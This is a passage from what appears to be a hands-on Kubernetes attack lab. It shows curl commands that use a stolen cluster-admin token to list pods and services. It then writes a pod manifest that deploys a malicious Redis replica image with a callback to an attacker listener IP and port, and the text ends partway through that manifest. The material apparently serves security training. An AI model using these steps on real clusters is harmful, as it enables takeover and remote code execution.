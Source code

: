 ### *We are now going to masquerade with the cluster-admin's token.*

* Step 19: Start interacting with K8s API. To get a JSON dump of all pods running, run

```commandline
curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure
```

* Step 20: Fetch the `clusterIP` of `redis-service` and note the value. 

```commandline
curl -s https://10.96.0.1/api/v1/namespaces/default/services -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure | grep -E '("redis-service"|clusterIP)'
```

### *The response will be similar to the one below. Please note that the IP may differ*

```
        "clusterIP": "10.96.0.1",
        "clusterIP": "10.98.196.52",
        "name": "redis-service",
        "clusterIP": "10.97.43.203", # This is the MASTERHOST IP of Redis
```

* Step 21: Get Server IP 

```commandline
serverip
```

* Step 22: Navigate to the reverse shell

* Step 23: On your machine, copy the following JSON value and make the following changes:
    
    * Change `Redis-Service-ClusterIP-HERE` with the value of redis-service `clusterIP`.
    
    * Change `SERVERIP-HERE` with that of Server IP that can be fetched by running `serverip`

```text
cat > mal-redis.json <<EOF
{
    "kind": "Pod",
    "apiVersion": "v1",
    "metadata": {
        "name": "mal-redis"
    },
    "spec": {
        "containers": [{
            "name": "mal-redis",
            "image": "we45/malicious-redis-slave",
            "env": [
              {
                "name": "MASTERHOST",
                "value": "Redis-Service-ClusterIP-HERE"
              },
              {
                "name": "MASTERPORT",
                "value": "6379"
              },
              {
                "name": "LISTENER_IP",
                "value": "SERVERIP-HERE"
              },
              {
                "name": "LISTENER_PORT",
                "value": "9090"
              }
```